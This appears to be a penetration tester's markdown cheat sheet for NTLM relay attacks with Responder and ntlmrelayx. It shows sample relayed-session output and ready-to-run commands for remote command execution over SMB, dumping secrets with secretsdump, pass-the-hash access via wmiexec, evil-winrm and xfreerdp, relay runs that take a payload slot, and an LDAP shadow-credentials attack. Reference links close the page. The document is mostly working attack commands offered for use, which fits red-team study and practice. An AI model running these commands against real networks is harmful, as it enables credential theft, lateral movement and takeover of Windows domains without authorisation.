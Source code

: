 #enumeration #relay-enumeration
# Utilizing Sock sessions with Responder and NtlmRelayX

```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
MSSQL     172.21.48.230  FAERIE/ADMINISTRATOR      1433
MSSQL     172.21.48.230  FAERIE/ROOT               1433
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
SMTP      172.21.48.225  FAERIEEXCHANGE/SBURKE     25
SMTP      172.21.48.225  FAERIEEXCHANGE/TWILLIAMS  25
IMAP      172.21.48.225  FAERIEEXCHANGE/TMCFARLANE 143
```

# Testing Sock Access from NtlmRelayX: 

## SMB:
Using SMBExec:
- proxychains4  impacket-smbexec SPAWN/MSIMMONS@172.21.48.38
- proxychains4  smbexec.py SPAWN/MSIMMONS@172.21.48.38
Using Smbclient
- proxychains4 impacket-smbclient SPAWN/MSIMMONS@172.21.48.38
- proxychains4 smbclient.py SPAWN/MSIMMONS@172.21.48.38

## Secrets Dump
- proxychains4  impacket-secretsdump SPAWN/MSIMMONS@172.21.48.38
- proxychains4  secretsdump.py SPAWN/MSIMMONS@172.21.48.38

## Pass The Hash:
If you obtain hashes from ntlmrelayx you can use the ntlm hash to gain access to a target using the following scripts or tools: 

Impacket Wmiexec:
- impacket-wmiexec -hashes ' INSERT HASH HERE' administrator@172.21.48.230
- wmiexec.py -hashes ' INSERT HASH HERE' administrator@172.21.48.230

Evil-WinRM:
- evil-winrm -u Administrator -H 'INSERT HASH HERE' -i 172.21.48.230

XfreeRDP: 
- xfreerdp /u:Administrator /pth:'INSERT HASH HERE' /v:172.21.48.230

# Other NtlmRelayX Commands: 
## In Kali:
### SMB
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c whoami
### Ldap
- impacket-ntlmrelayx -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

## Python Impacket: 
### SMB
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- ntlmrelayx.py -tf smb-targets.txt -c whoami
### LDAP
- ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

# References: 
- https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/
-  https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0
-  https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.offsec-journey.com/post/attacking-ms-sql-servers
- https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/ 
- https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/